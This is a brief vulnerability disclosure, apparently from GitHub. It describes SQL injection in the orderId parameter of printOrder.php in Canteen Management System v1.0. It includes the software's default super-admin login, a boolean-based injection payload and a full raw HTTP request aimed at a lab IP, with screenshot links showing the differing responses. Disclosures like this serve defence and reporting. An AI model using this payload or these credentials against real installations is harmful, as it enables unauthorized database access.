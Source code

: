 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: 庞习铭

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/php_action/printOrder.php

Vulnerability location: /youthappam/php_action/printOrder.php, id

dbname =youthappam,length=10

[+] Payload: orderId=1 and length(database()) = 10 // Leak place ---> id

```sql
POST /youthappam/php_action/printOrder.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

orderId=1 and length(database()) = 10
```

length = 10
![image](https://user-images.githubusercontent.com/54017627/195262497-30552d71-e88d-44ee-a7ac-9e6c19bab679.png)


length = 9
![image](https://user-images.githubusercontent.com/54017627/195262575-32875a3c-80cc-46f5-925d-d8483b2150b3.png)

